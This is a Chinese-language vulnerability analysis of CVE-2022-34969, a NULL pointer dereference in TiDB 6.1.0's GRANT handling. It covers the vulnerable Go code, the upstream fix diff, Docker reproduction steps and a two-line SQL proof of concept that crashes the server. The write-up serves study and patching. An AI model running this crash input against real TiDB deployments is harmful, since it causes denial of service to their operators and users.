


# CVE-2022-34969 CWE-476 TiDB 空指针解引用

## 漏洞背景

- **TiDB ：**一款开源的分布式关系型数据库，由 PingCAP 公司开发。它兼容 MySQL 协议，具备水平扩展、强一致性和高可用性，支持在线事务处理（OLTP）和在线分析处理（OLAP），是一款混合事务与分析处理（HTAP）数据库。TiDB 采用计算与存储分离的架构，通过 TiKV 实现分布式存储，借助 TiFlash 提供列存引擎，适用于对数据一致性、高可用和实时分析要求较高的场景。

- ```txt
  CWE-476: NULL Pointer Dereference
  The product dereferences a pointer that it expects to be valid but is NULL.
  ```

## 漏洞原理

由于 TiDB 未对 `user.AuthOpt.AuthPlugin` 的访问进行空指针检查，在执行特定的 `GRANT` 语句时，TiDB 会尝试访问一个可能为 `nil` 的 `user.AuthOpt` 对象的字段，导致程序崩溃。

## 漏洞定位

分析 TiDB - 6.1.0 源码：

在 executor/grant.go 文件，第 65 行的 (e *GrantExec) Next 函数中。

第 116 行对 `user.AuthOpt.AuthPlugin` 的访问未进行空指针检查，导致在执行特定的 `GRANT` 语句时触发空指针取消引用（NULL pointer dereference），从而导致 TiDB 崩溃。

```c
//  executor/grant.go 文件，第 65 行
func (e *GrantExec) Next(ctx context.Context, req *chunk.Chunk) error {
    
    // ...
		if !exists && e.ctx.GetSessionVars().SQLMode.HasNoAutoCreateUserMode() {
			return ErrCantCreateUserWithGrant
		} else if !exists {
			pwd, ok := user.EncodedPassword()
			if !ok {
				return errors.Trace(ErrPasswordFormat)
			}
			authPlugin := mysql.AuthNativePassword
// ********** 116 行 **********
			if user.AuthOpt.AuthPlugin != "" {
				authPlugin = user.AuthOpt.AuthPlugin
			}
			_, err := internalSession.(sqlexec.SQLExecutor).ExecuteInternal(ctx,
				`INSERT INTO %n.%n (Host, User, authentication_string, plugin) VALUES (%?, %?, %?, %?);`,
				mysql.SystemDB, mysql.UserTable, strings.ToLower(user.User.Hostname), user.User.Username, pwd, authPlugin)
			if err != nil {
				return err
			}
		}
	}
```

## 漏洞修复

在访问 `user.AuthOpt.AuthPlugin` 前增加空指针检查，确保在 `user.AuthOpt` 为 `nil` 时不会进行访问，从而避免了空指针取消引用的问题。

```c
diff --git a/executor/grant.go b/executor/grant.go
index 04e7ffc5914c3..99db32abe79d1 100644
--- a/executor/grant.go
+++ b/executor/grant.go
@@ -163,7 +163,7 @@ func (e *GrantExec) Next(ctx context.Context, req *chunk.Chunk) error {
 				return errors.Trace(ErrPasswordFormat)
 			}
 			authPlugin := mysql.AuthNativePassword
-			if user.AuthOpt.AuthPlugin != "" {
+			if user.AuthOpt != nil && user.AuthOpt.AuthPlugin != "" {
 				authPlugin = user.AuthOpt.AuthPlugin
 			}
 			_, err := internalSession.(sqlexec.SQLExecutor).ExecuteInternal(ctx,
```

## 影响范围

TiDB ：

- 6.1.0

## 环境搭建

启动 Docker 环境，TiDB 版本为 6.1.0

```txt
CNA:NVD   Base Score:7.5 HIGH  Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:pingcap:tidb:6.1.0:-:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行，使用 mysql 工具连接 TiDB ，密码为 password

   ```bash
   docker exec -it tidb-6.1.0 mysql --host 127.0.0.1 --port 4000 -u root -D test_db -p
   ```

2. 执行 PoC 代码，可以看到报错出现了空指针解引用

   ```sql
   SET sql_mode="";
   GRANT ALL PRIVILEGES ON *.* to '???';
   ```

   

## PoC分析

```sql
SET sql_mode="";
GRANT ALL PRIVILEGES ON *.* to '???';
```

该操作会尝试为用户 `'???'` 分配权限，但由于 `user.AuthOpt` 为 `nil`，直接访问 `user.AuthOpt.AuthPlugin` 会导致空指针取消引用，从而引发运行时错误。

## 参考链接

https://nvd.nist.gov/vuln/detail/CVE-2022-34969

[runtime error: invalid memory address or nil pointer dereference (Maybe not a bug) · Issue #35310 · pingcap/tidb](https://github.com/pingcap/tidb/issues/35310)

[executor: fix panic when granting privilege to a non-exists user by djshow832 · Pull Request #35365 · pingcap/tidb](https://github.com/pingcap/tidb/pull/35365/commits/829403b97cb08b6740b057ec0eb0ade267af8184)
